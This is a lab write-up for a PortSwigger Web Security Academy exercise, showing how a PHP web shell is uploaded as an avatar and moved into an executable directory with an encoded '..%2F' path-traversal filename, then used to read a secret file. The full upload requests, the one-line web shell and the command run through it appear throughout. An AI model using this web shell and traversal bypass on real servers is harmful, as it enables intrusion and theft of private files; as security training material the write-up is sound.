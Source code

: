 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1f1b537e-88bb-48e0-ae35-def3d01086ab)

## Overview :

#### Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the **second line of defense is to stop the server from executing any scripts** that do slip through the net.

As a precaution, **servers generally only run scripts whose MIME type they have been explicitly configured to execute**. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This behavior is potentially interesting in its own right, as it may provide a way to_ leak source code, but it nullifies any attempt to create a web shell_.

This kind of configuration often differs between directories. **A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations** on the filesystem that are assumed to be out of reach for end users. **If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files**, the server may execute your script after all.

> Tip
> 
> Web servers often use the `filename` field in `multipart/form-data` requests **to determine the name and location where the file should be saved**. 

## Solution :

Log in as wiener to access the page where we can upload avatars.

### Upload the malicious file -

When we upload `file.php` with the contents `<?php echo system($_GET['command']); ?>`, it is successfully uploaded without any issues.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cfde7a0-b8eb-4f83-9c55-e4189aee789a)

The request that was sent is as follows,

```
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Cookie: session=aWtpSAMVirAHeCiD6YqpGN4PJji0x0kC
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42560056771282130375485220784
Content-Length: 523
Origin: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Referer: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```

But when we try to access/run the file, we get nothing in response. It is plaintext. It means the directory in which the file is saved doensn't allow certain files to be executed(Permission issues etc..,).

So we have to **save the file in some other directory which has executable permissions.**

Notice that there is a `filename=` parameter in the body , since the request has `multipart/form-data`. We could use that parameter to save it in another directory.

#### Case 1 -

When we give **filename=../file.php** , the response says it is successfully uploaded but if we try accessing the file at `academy.com/files/avatars/../file.php` or `academy.com/files/file.php` it still shows nothing.

Maybe the server strips of the **.. or /** so it gets saved as **..file.php**.

#### Case 2 -

Now to bypass this we can try giving the name of the filename in the **filename=** parameter by Url encoding it as `filename=..%2Ffile.php`

```
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
.
.
.
.
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="..%2Ffile.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```

Now also we get a successfully uploaded message in the response.

```
HTTP/2 200 OK
Date: Fri, 28 Jul 2023 14:36:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/../file.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Now if we try to access the file at `academy.net/files/file.php` & run it using the `?command=` parameter, we get the executed command back in the response.

ie - `https://academy.net/files/file.php?command=id`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a15c5e42-4a21-476e-9f55-d89b33a89690)

### Retreive the secret -

Now we can retreive the secret by accessing the file at `/files/file.php` ie the directory before avatars & run the script with the **command=cat /home/carlos/secret**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/df72a712-6213-4e9f-b2b6-58263f1da559)

SECRET - `rT9LETyiGsSM5KvLRUKfijLkW08AdheP`

Submit the secret to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5e09e9-4d3d-422f-b402-d9a40e5f8518)
